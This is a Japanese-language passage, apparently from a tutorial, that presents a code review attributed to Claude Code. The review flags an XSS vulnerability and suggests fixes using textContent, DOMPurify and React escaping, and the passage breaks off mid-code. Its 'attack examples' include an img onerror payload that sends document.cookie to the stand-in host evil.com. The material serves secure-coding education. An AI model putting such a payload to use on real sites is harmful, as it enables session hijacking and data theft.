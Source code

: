 
**Claude Codeのレビュー:**
```
セキュリティレビュー結果:

🚨 XSS（Cross-Site Scripting）脆弱性

問題点:
1. ユーザー入力を直接HTMLとして挿入
2. 悪意のあるスクリプトの実行が可能
3. セッション乗っ取りやデータ窃取のリスク

攻撃例:
comment = "<script>alert('XSS Attack!');</script>"
または
comment = "<img src='x' onerror='document.location=\"http://evil.com?cookie=\"+document.cookie'>"

修正方法:

1. テキストコンテンツとして安全に表示:
```typescript
const displayUserComment = (comment: string): void => {
  const commentElement = document.getElementById('comment');
  if (commentElement) {
    commentElement.textContent = comment; // HTMLエスケープされる
  }
};
```

2. HTMLサニタイゼーションライブラリの使用:
```typescript
import DOMPurify from 'dompurify';

const displayUserComment = (comment: string): void => {
  const commentElement = document.getElementById('comment');
  if (commentElement) {
    const sanitizedComment = DOMPurify.sanitize(comment);
    commentElement.innerHTML = sanitizedComment;
  }
};
```

3. Reactでの安全な実装:
```typescript
interface CommentProps {
  comment: string;
}

const CommentDisplay: React.FC<CommentProps> = ({ comment }) => {
  return (
    <div className="comment">
      {/* Reactが自動的にエスケープ */}
      {comment}
    </div>
  );
};

// HTMLを含む場合（注意深く使用）
const CommentDisplayWithHTML: React.FC<CommentProps> = ({ comment }) => {
  const sanitizedComment = DOMPurify.sanitize(comment);
  
  return (
    <div 
      className="comment"
      dangerouslySetInnerHTML={{ __html: sanitizedComment }}
    />
```